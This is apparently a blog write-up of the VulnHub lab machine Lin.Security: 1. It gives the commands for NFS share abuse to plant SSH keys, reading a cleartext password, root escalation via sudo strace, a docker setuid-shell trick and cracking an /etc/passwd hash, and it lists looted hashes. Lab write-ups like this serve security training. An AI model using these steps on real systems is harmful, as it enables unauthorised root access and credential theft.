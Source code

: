 [VulnHub] Lin.Security: 1
===============
date: 10/Oct/2019
summary: This is the summary for an awesome post.
tags: vulnhub, writeup

## Overview
This is a writeup for VulnHub VM [Lin.Security: 1](https://www.vulnhub.com/entry/linsecurity-1,244/). Here's an overview of the `enumeration → exploitation → privilege escalation` process:

![writeup.overview.killchain](/static/files/posts_vulnhub_linsecurity1/killchain.png)

## Phase #1: Enumeration
1\. Here's the Nmap scan result:  
```
# Nmap 7.70 scan initiated Wed Oct  9 19:28:13 2019 as: nmap -vv --reason -Pn -sV -sC --version-all -oN /root/toolbox/writeups/vulnhub.linsecurity1/results/192.168.92.186/scans/_quick_tcp_nmap.txt -oX /root/toolbox/writeups/vulnhub.linsecurity1/results/192.168.92.186/scans/xml/_quick_tcp_nmap.xml 192.168.92.186
Nmap scan report for 192.168.92.186
Host is up, received arp-response (0.0024s latency).
Scanned at 2019-10-09 19:28:19 PDT for 8s
Not shown: 997 closed ports
Reason: 997 resets
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 7a:9b:b9:32:6f:95:77:10:c0:a0:80:35:34:b1:c0:00 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC6IO+zWqbr1ygGx4JPZUC/turDfHidMFqfTWv8glTZnpLnY6ZTTdQ8/HfSgAtwXSdOvSy6QwzSFxamx+TlV0mdrc8oJrcltmA31M0JwrGvCIQspLPuPDNgG3TwJitEb+HyS+PX0/hIIxnPz2LDl6E4/o0Va6HjA4p7qFKCt4PESN47lRvwMBiQjCucTf08yy9VZ7k2JJOvK9X/ebBz2OF3tJJHN3wiezMTIi7xAYSaT8XBHjf/3awUVqASEowf2gd14V8MM6ASwMVhcFGt0/DKxdXuiddphI67Z+3HCR3JsHgKl3nvhSmgTf5ZHt3HPgoe5XmL6LDjmkUGIdNrBya9
|   256 24:0c:7a:82:78:18:2d:66:46:3b:1a:36:22:06:e1:a1 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBEGq7yVBMw51IUPgAkmf4d8s6nVCPvcgXngPgU6tbTbFeFMUy1Do5mJziIp3eyLrFgZlTkfhjRdYhBoX/ZkM36Q=
|   256 b9:15:59:78:85:78:9e:a5:e6:16:f6:cf:96:2d:1d:36 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAICl+R8URLpkAb92x1+AMcdkp8qCHXphnD8fI+ObeoNs/
111/tcp  open  rpcbind syn-ack ttl 64 2-4 (RPC #100000)
| rpcinfo:
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100003  3           2049/udp  nfs
|   100003  3,4         2049/tcp  nfs
|   100005  1,2,3      37211/tcp  mountd
|   100005  1,2,3      37678/udp  mountd
|   100021  1,3,4      39735/tcp  nlockmgr
|   100021  1,3,4      43597/udp  nlockmgr
|   100227  3           2049/tcp  nfs_acl
|_  100227  3           2049/udp  nfs_acl
2049/tcp open  nfs_acl syn-ack ttl 64 3 (RPC #100227)
MAC Address: 00:0C:29:07:84:F0 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Wed Oct  9 19:28:27 2019 -- 1 IP address (1 host up) scanned in 14.69 seconds
```

2\. We find that there is an open NFS share for the `/home/peter` directory on the target system:  
```
showmount -e 192.168.92.186
```

![writeup.enumeration.steps.2.1](/static/files/posts_vulnhub_linsecurity1/screenshot01.png)  

### Findings
#### Open Ports
```
22/tcp     |  ssh       |  OpenSSH 7.6p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
111/tcp    |  rpcbind   |  2-4 (RPC #100000)
2049/tcp   |  nfs_acl   |  3 (RPC #100227)
37211/tcp  |  mountd    |  1-3 (RPC #100005)
39735/tcp  |  nlockmgr  |  1-4 (RPC #100021)
53127/tcp  |  mountd    |  1-3 (RPC #100005)
57997/tcp  |  mountd    |  1-3 (RPC #100005)
```
#### Users
```
ssh: peter
```

## Phase #2: Exploitation
1\. We mount this share locally and copy our SSH public key to the newly created `.ssh` directory within mounted NFS share:  
```
cp ~/.ssh/id_rsa.pub ./authorized_keys
mkdir share
mount 192.168.92.186:/home/peter share/ -o vers=3
useradd -u 1001 peter
su peter
cd share
mkdir .ssh
cp ../authorized_keys .ssh/
```

![writeup.exploitation.steps.1.1](/static/files/posts_vulnhub_linsecurity1/screenshot02.png)  

![writeup.exploitation.steps.1.2](/static/files/posts_vulnhub_linsecurity1/screenshot03.png)  

![writeup.exploitation.steps.1.3](/static/files/posts_vulnhub_linsecurity1/screenshot04.png)  

2\. Now we can SSH into the target system as user `peter`:  
```
ssh peter@192.168.92.186
```

![writeup.exploitation.steps.2.1](/static/files/posts_vulnhub_linsecurity1/screenshot05.png)  

3\. We find an interesting file `.secret` under user `susan`'s home directory. This file has the password in cleartext which we can use to login:  
```
cat /home/susan/.secret
su susan
```

![writeup.exploitation.steps.3.1](/static/files/posts_vulnhub_linsecurity1/screenshot06.png)  

## Phase #2.5: Post Exploitation
```
peter@linsecurity> id
uid=1001(peter) gid=1005(peter) groups=1005(peter),999(docker)
peter@linsecurity>  
peter@linsecurity> uname
Linux linsecurity 4.15.0-23-generic #25-Ubuntu SMP Wed May 23 18:02:16 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
peter@linsecurity>  
peter@linsecurity> ifconfig
ens33:  flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.92.186  netmask 255.255.255.0  broadcast 192.168.92.255
        inet6 fe80::20c:29ff:fe07:84f0  prefixlen 64  scopeid 0x20<link>
        ether 00:0c:29:07:84:f0  txqueuelen 1000  (Ethernet)
        RX packets 124781  bytes 75456965 (75.4 MB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 99458  bytes 6136016 (6.1 MB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
peter@linsecurity>  
peter@linsecurity> users
bob
peter
susan
```

## Phase #3: Privilege Escalation
1\. We find that the user `peter` can run `strace` with elevated privileges. This gives us a option to elevate privileges by tracing a program that spawns a shell:  
```
nano privesc.c
  #include <stdlib.h>
  #include <unistd.h>
  int main() {
    setuid(0);
    setgid(0);
    system("/bin/bash");
  }
gcc -o privesc privesc.c
sudo strace ./privesc
```

![writeup.privesc.steps.1.1](/static/files/posts_vulnhub_linsecurity1/screenshot07.png)  

![writeup.privesc.steps.1.2](/static/files/posts_vulnhub_linsecurity1/screenshot08.png)  

2\. We can also elevate privileges using `docker` since the user `peter` is already a member of group `docker`:  
```
mkdir docker-test
cd docker-test
cat > Dockerfile
  FROM debian:wheezy
  ENV WORKDIR /stuff
  RUN mkdir -p $WORKDIR
  VOLUME [ $WORKDIR ]
  WORKDIR $WORKDIR
  << EOF
docker build -t my-docker-image .
docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c 'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh'
./sh
```

![writeup.privesc.steps.2.1](/static/files/posts_vulnhub_linsecurity1/screenshot09.png)  

![writeup.privesc.steps.2.2](/static/files/posts_vulnhub_linsecurity1/screenshot10.png)  

![writeup.privesc.steps.2.3](/static/files/posts_vulnhub_linsecurity1/screenshot11.png)  

3\. We find that the user `insecurity`'s (unsalted) password hash is stored within `/etc/passwd`. We run a bruteforce on this hash to get the cleartext password. Since this user has same uid/gid as user `root`, we get elevated access on the target system:  
```
cat /etc/passwd
echo "insecurity:AzER3pBZh6WZE:0:0::/:/bin/sh" >passwd
john --format=crypt --wordlist=/usr/share/wordlists/rockyou.txt passwd
  P@ssw0rd         (insecurity)
ssh insecurity@192.168.92.186
```

![writeup.privesc.steps.3.1](/static/files/posts_vulnhub_linsecurity1/screenshot12.png)  

![writeup.privesc.steps.3.2](/static/files/posts_vulnhub_linsecurity1/screenshot13.png)  

## Loot
### Hashes
```
root:$6$aorWKpxj$yOgku4F1ZRbqvSxxUtAYY2/6K/UU5wLobTSz/Pw5/ILvXgq9NibQ0/NQbOr1Wzp2bTbpNQr1jNNlaGjXD........................
bob:$6$Kk0DA.6Xha4nL2p5$jq7qoit2l4ckULg1ZxcbL5wUz2Ld2ZUa.RYaIMs.Lma0EFGheX9yCXfKy37K0GsHz50FYIqIESo4QXWL.........................
peter:$6$QpjS4vUG$Zi1KcJ7cRB8TJG9A/x7GhQQvJ0RoYwG4Jxj/6R58SJddU2X/QTQKNJWzwiByeTELKeyp0vS83kPsYITbT........................
susan:$6$5oSmml7K$0joeavcuzw4qxDJ2LsD1ablUIrFhycVoIXL3rxN/3q2lVpQOKLufta5tqMRIh30Gb32IBp5yZ7XvBR6uX........................
```
### Credentials
```
ssh: bob/secr.., susan/MySuperS3cretV....., insecurity/P@ss....
```
## References
* <https://www.vulnhub.com/entry/linsecurity-1,244/>  
* <https://in.security/lin-security-walkthrough/>  
* <https://hackso.me/lin.security-1-walkthrough/>  
